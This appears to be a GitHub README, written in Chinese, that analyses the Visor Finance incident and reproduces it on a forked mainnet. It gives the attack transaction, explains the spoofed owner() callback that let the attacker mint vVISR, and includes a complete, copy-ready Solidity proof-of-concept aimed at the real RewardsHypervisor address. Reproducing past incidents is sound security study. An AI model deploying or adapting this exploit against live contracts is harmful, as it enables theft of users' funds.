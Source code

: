# Visor_Finance_Vul_Poc
Visor Finance 攻击事件的分析和复现


## 事件分析

* 攻击交易

```
0x69272d8c84d67d1da2f6425b339192fa472898dce936f24818fda415c1c1ff3f
```

* 攻击发生的块高度

```
13849007 
```
* 攻击步骤

1. 调用`RewardsHypervisor`的`deposit`函数, 传入参数为：
    1. 质押数量： 100000000000000000000000000
    2. From 地址： 攻击合约自己的地址
    3. To 地址: 攻击者的EOA地址

2.  第一步操作会回调攻击合约的`owner`函数, 攻击合约的返回值为: 攻击合约自己的地址

3.  第一步操作还会再次回调攻击合约的`delegatedTransferERC20`函数, 导致重入攻击
    在`delegatedTransferERC20`函数中, 攻击合约再次调用`RewardsHypervisor`的`deposit`函数,传入参数与第一步相同
    (这一步我在POC中省略了)

4.  绕过一系列的检测后, `RewardsHypervisor`合约给攻击者的EOA地址铸造了  
    `97624975481815716136709737`个`vVISR`
    
    
## 复现

* fork

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/your_api_key@13849006   -l 4294967295
```

* 部署攻击合约

* 因为攻击步骤过于简单, 所以下面是完整代码, 可以直接复制

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity >=0.7.0 <0.9.0;

interface IRewardsHypervisor {
    function deposit(
        uint256 visrDeposit,
        address from,
        address to
    ) external returns (uint256 shares);

    function owner() external view returns (address);

    function snapshot() external;

    function transferOwnership(address newOwner) external;

    function transferTokenOwnership(address newOwner) external;

    function visr() external view returns (address);

    function vvisr() external view returns (address);

    function withdraw(
        uint256 shares,
        address to,
        address from
    ) external returns (uint256 rewards);
}


contract poc{
    
    address RewardsHypervisor_Address = 0xC9f27A50f82571C1C8423A42970613b8dBDA14ef;

    address public EOA_Address;

    constructor() {

        EOA_Address =  msg.sender;
    
    }

    function attack() external{

        IRewardsHypervisor(RewardsHypervisor_Address).deposit(100000000000000000000000000,address(this),EOA_Address);

    }


    function owner() external returns(address){

        return(address(this));

    }


    function delegatedTransferERC20(address token, address to, uint256 amount) external{}

}
```

* 点击`Attack`

![image](https://github.com/W2Ning/Visor_Finance_Vul_Poc/blob/main/images/attack.png)

* 攻击结束

![image](https://github.com/W2Ning/Visor_Finance_Vul_Poc/blob/main/images/success.png)

